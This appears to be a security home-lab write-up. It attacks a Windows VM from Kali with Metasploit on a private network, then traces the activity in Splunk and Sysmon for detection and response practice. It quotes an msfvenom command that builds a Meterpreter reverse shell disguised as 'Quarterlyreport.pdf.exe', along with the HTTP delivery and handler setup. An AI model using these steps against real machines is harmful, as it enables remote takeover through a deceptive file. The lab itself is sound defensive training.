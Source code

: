 <h3>Objective</h3>

I created this lab to have a safe space to safely experiment with red/blue team roles in a live environment. In this lab, I will create a private network with two endpoints. One of the VMs will be our blue team machine(Windows Box) and the other will be our red team machine(Kali-linux). I will place both machines on a private network and use Metasploit in the Kali Linux VM to attack our Blue team VM, which will have Sysmon and a Splunk instance to capture all the traffic. 

<h3>Skills Learned</h3>  

-Log analysis

-Configuration of a System Information Event Manager(SIEM)

-Red/blue teaming

-Virtual machine configuration

-Experience in a simulated live environment

<h3>Tools Used</h3>

-Splunk

-Sysmon

-Metasploit

Security Information and Event Management (SIEM) system for log ingestion and analysis.
Network analysis tools (such as Wireshark) for capturing and examining network traffic.
Telemetry generation tools to create realistic network traffic and attack scenarios.
Steps

Spin up two VMs, One being Windows and the other being Kali Linux. On both VMs set the network adapter to the "Internal Network" setting while making both VM IPs static to the same network. This network scheme was selected to keep the VMs from being accessible from the open web, while also having the ability to communicate with each other.

The IP's in this lab are: Windows VM - 192.168.33.2, Kali VM - 192.168.33.3 

For this lab, we will open up the RDP port(3389) and turn off the firewall on our Windows VM.

<img width="583" alt="image" src="https://github.com/user-attachments/assets/5b423ff8-596e-4f76-95a8-854c507c9b36" />

Ref 1: Virtual Box Settings

To set up our blue team environment on our Windows VM, we will be configuring Sysmon on the endpoint to gather event logs and send them directly to our Splunk instance, also installed on our Windows machine.
We did this by allocating a Sysmon config file from Github, copying it to the directory containing the Sysmon application, and running the command ./sysmon64.exe -i sysmonconfig.xml in Powershell.
Installing Sysmon will enhance our ability to capture system events.(Since I don't want to expose these VMs to the open web, I downloaded the config file from my main PC, enabled bidirectional drag and drop on the VM, and copied the file directly into the VM.) 
For Splunk configuration, I installed the Sysmon add-on and created the "endpoint" index. Our Sysmon config file will point to the index we created by its name, allowing Sysmon to send logs to our Splunk instance


<h3>Weaponization</h3>
  
  To create telemetry from our Kali VM to our Windows VM, we are going to use the well-known Metasploit pentesting tool.
We will start by creating the Malware payload with this command: msfvenom -p windows/x64/meterpreter_reverse_tcp lhost-192.168.33.3 -f exe Quarterlyreport.pdf.exe
-p chooses the payload we want to use provided by the Metasploit tool. 
"lhost", determines which IP this reverse shell payload will remote back to when executed.
-f will decide the file name, we will name it Quarterlyreport.pdf.exe to entice the "end user" to click on it.

![Screenshot 2025-03-12 072905](https://github.com/user-attachments/assets/17e8deb8-90ab-4509-b982-a718275314f4)

Ref 2: Malicious Payload

<h3>Delivery/Installation</h3>

Now we need to deliver the payload to the end user.
To do so, we will host an HTTP Python server by running the command found below inside the directory where the payload was saved to
python3 -m http.server 9999. 
On our Windows machine we will search the IP of our Kali box followed by ":9999" which is the port designated in our Python command. 

![executing the file](https://github.com/user-attachments/assets/b5601151-d80e-4cca-9425-6304a0f62d4e)

Ref 3: Delivering the payload to the victim

After searching this, it will take us to the directory in our Kali VM. We will then download and execute the malicious file we created.
We see on our Kali terminal that a GET request was logged
After running "netstat -anob" on the Windows VM we see a network connection established to our Kali box 

<h3>Command & Control</h3>

Now that we have successfully delivered and installed our malware, it's time to carry out the exploitation phase of our attack.
We do this by opening the Msfconsole on our Kali VM and configuring the handler by setting the payload to "windows/x64/meterpreter/reverse_tcp" and setting our local IP and the port we want the exploit to use on the victim machine.
After configuring the handler, we insert the exploit into the CLI to initiate the reverse TCP handler.
The session has been opened with our victim machine (192.168.33.2).

![Updated handler](https://github.com/user-attachments/assets/1106b392-a05b-4a9f-a284-8d72a3783490)

Ref 4: Reverse Shell

Now we will run the following commands in our handler to open up a shell and create network traffic to analyze in our Splunk instance.
Commands: shell, netstat, ipconfig, net user, net group.

<h3>Log Analysis</h3>

Time to do some threat hunting in our Splunk instance.
We will start by searching for our index in Splunk.
I have a suspicion that the 192.168.33.3 IP we are sending traffic to is a threat, let's filter traffic that is being sent to that IP.

![Screenshot 2025-03-10 211850](https://github.com/user-attachments/assets/63eb2f00-f37e-44f8-a4ad-3107ed305bd4)

Ref 5: Splunk Query by IP

After analyzing the event, we see that one of the events has a suspicious .exe file with two file extensions in the name
Luckily, we are running Sysmon, which allows the SourceProcessGUID, if we filter by this field, we can display all events related to this suspicious file 

![SIEM SourceProcessGUID](https://github.com/user-attachments/assets/d41747eb-220b-4aaf-a606-6870af1f8ff4)

Ref 6: Splunk Event Details

We queried the SourceProcessGUID and organized the output with the table command to display the Time, ParentImage, Image, and Command Line

![Final SIEM](https://github.com/user-attachments/assets/e96640cd-65a9-40e6-a0a4-0e3663bc74e8)

Ref 7: Shell Commands With a Parent Process of Quarterlyreport.pdf.exe

<h3>Incident Response</h3>

Upon analysis, we see commands being executed affiliated with an IP that is not the host's, sound the alarms.
In a real life scenario, this endpoint would be immediately quarantined from the rest of the network to mitigate damage from spreading.
The IP would also be blacklisted and the firewall reconfigured to block this suspected RAT throughout the network.

